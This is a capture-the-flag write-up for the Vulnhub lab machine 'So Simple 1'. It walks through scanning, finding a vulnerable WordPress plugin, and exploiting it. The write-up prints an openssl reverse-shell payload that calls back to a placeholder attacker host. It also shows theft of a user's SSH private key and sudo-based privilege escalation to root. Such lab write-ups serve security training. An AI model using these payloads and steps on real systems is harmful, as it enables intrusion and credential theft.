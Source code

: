 # So Simple 1

---

Machine by [@roelvb79](https://twitter.com/roelvb79)

Vulnhub [link](https://www.vulnhub.com/entry/so-simple-1,515/)

Objectives:

  * 2 user flags
  * 1 root flag

---

## Network scan


  
1. Use nmap to scan the network

    We'll use an intense scan on the network as it's quite small (virtualbox host only), we can see web and ssh services running, but no aparent vulnerabilities yet.

    ![victim machine nmap scan result](img/1-nmap.png)
   
<br>

2. Visit the website

    If we visit the website we can see that there is only a big red image with the words "SO SIMPLE":
   
    ![website](img/2-website.png)

    And the website code doesn't reveal anything that's useful:

    ![website origin code](img/3-website_origin.png)

<br>

3. Attempt an ssh login

   Attempting to login with ssh shows it only accepts key authentication, thus ruling out ssh brute force with common passwords, if we want a way in we'll need an alternative

<br>

4. We'll run drib

    As there is no vulnerability that we can see in plain sight, dirb, will show us what are some sub-directories, and we can see that wordpress is installed:
  
    ![dirb website results](img/4-dirb.png)

5. Use WPScan

   As we saw on the las step wordpress is installed, WPScan will show, the wordpress, plugins and themes versions, as well as vulnerabilities associated with them

<br>

---

---

 



5- create a wpscan account and get api key

6- run "sudo wpscan --api-token BxwwzQ5nrvb34sz235LeWNQQplA4vqr7VBu9WEylbrQ --url http://192.168.56.111/wordpress/ -e" to get information of the wordpress sitem, we know that Social Warfare is installed and on version 3.5.0 is installed and the users "admin" and "max" are created.

7- search for vulnerabilities of social warfare and we find a remote execution vulnerability: "https://wpscan.com/vulnerability/7b412469-cc03-4899-b397-38580ced5618/".

8- spin up an apache install, it will contain our payload called "payload.txt" and contain "<pre>system('mkfifo /tmp/s; /bin/bash -i < /tmp/s 2>&1 | openssl s_client -quiet -connect ATTACKER_MACHINE:4242 > /tmp/s; rm /tmp/s')</pre>", this will create a connection to our attacker machine on port 4242. (reverse shell command from https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#openssl)
9- Start nc with the next options "ncat --ssl -vv -l -p 4242", we will get a reverse shell connection
10- navigate to the max user .ssh folder and get the id_rsa key, we will copy the contents and create a file on our attack machine, we'll call it "key", paste the private key into it, and chmod 600 said file.
11- add the private key with "ssh-add key"
12- ssh into the machine as max with "ssh max@192.168.56.111"
13- once in we can cat the file user.txt and get the first flag
14- using "sudo -l" we'll know what the user has acces to use as root without asking a password, this will return that the user can use /usr/sbin/service.
15- we will use "sudo -u steven /usr/sbin/service ../../bin/bash" this will change to the user steven with the permissions of max /usr/sbin/service and will make sure that we acces the user with /bin/bash as the interpreter.
16- repeat "sudo -l" for user steven, will return a "/opt/tools/server-health.sh" file (non existant), we'll create the folder tools and file server-health.sh. this file will contain: 
#!/bin/bash

bash
17- then we will "chmod +x /opt/tools/server-health.sh"
18- we can use "sudo -u root /opt/tools/server-health.sh" to get root access to the machine.
19- copy the root's ssh private key for direct root access to the machine, and get the flag from inside the root's home folder
WpScan
